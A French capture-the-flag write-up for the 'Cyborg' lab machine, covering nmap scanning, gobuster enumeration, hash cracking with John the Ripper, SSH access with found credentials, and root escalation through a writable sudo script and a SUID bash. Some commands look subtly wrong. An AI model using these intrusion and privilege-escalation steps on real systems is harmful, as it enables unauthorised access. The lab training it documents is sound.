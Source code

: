 # Cyborg

## I- Scanning

On utilise nmap `nmap -sC -sV <target ip>` ou tu peux faire un nmap agressif `nmap -A <target ip>` ou encore `nmap -sV <target ip>`

On regarde les ports ouvert et en fonction on peut essayer de se connecter aux services disponible (ex: HTTP, SSH, SMB etc…)

Sur cette machine, nous avons SSH et un serveur web qui sont accessible.

## II- Enumération

On peut aller sur le serveur web voir si l’ont trouve quelque chose d’intéressant.

On utilise **gobuster** lors de cette étape pour découvrir les dossier présent sous la page web:

`gobuster dir -u http://<ip-cible> -w <wordlist>`

chemin de wordlists:

* /usr/share/wordlists/dirb/common.txt
* /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
* /usr/share/wordlists/rockyou.txt

Nous avons trouvé deux dossiers intéressant: /admin et /etc

Dans /etc nous avons trouvé un autre dossier /squid contenant le mot de passe haché de Apache. On utilise John the Ripper pour crack le mot de passe.

```powershell
john —wordlist=/usr/share/wordlists/rockyou.txt <fichier.txt>
```

Nous avons également un username: music\_archive.

Sur la page /admin, dans “Archive”, nous avons la possibilité de télécharger un “archive.tar”

Pour extract:

```powershell
tar -xvf archive.tar
```

Il semble que Borg crypte les fichiers et les sauvegarde. Nous nous souvenons que notre utilisateur (éventuellement administrateur) Alex était un amateur de musique, qui sauvegardait ses fichiers sous "music\_archive". Prenons un moment pour rechercher comment Borg est utilisé. Tout d'abord, nous devons l'installer.

Installation des dépendances selon la documentation :

[https://borgbackup.readthedocs.io/en/stable/installation.html](https://borgbackup.readthedocs.io/en/stable/installation.html)

Dans /home/alex, on peut essayer de chercher des fichiers intéressant

```powershell
find . -type f
```

Nous obtenons un fichier note.txt qui contient des identifiants, si ont les utilisent pour se connecter en SSH cela fonctionne. Nous avons notre premier flag !

## IV- Escalation de privilège

Comme toujours, on vérifie les droits de notre user:

```powershell
sudo -l 
```

Dans notre cas on peut exécuter “/backup.sh” en tant que root. On peut jeter un œil à ce script:

```powershell
cat /etc/mp3backups/backup.sh
```

On donne les permissions de modifier ce fichier

```powershell
chmod +w backup.sh
```

Nous pouvons maintenant exécuter le script

```powershell
sudo -r root /etc/mp3backups/backup.sh -c bash
```

Nous sommes en root sur la machine ! Si jamais vous n’avez aucun retour des commandes lorsque vous êtes sur le shell root, vous pouvez en root faire:

```powershell
chmod 4577 /bin/bash
```

Quitter puis faire bash -p

Alternative: faire un reverse shell, lancer netcat puis exécuter le script)

Ensuite naviguez dans root et trouver votre dernier flag.
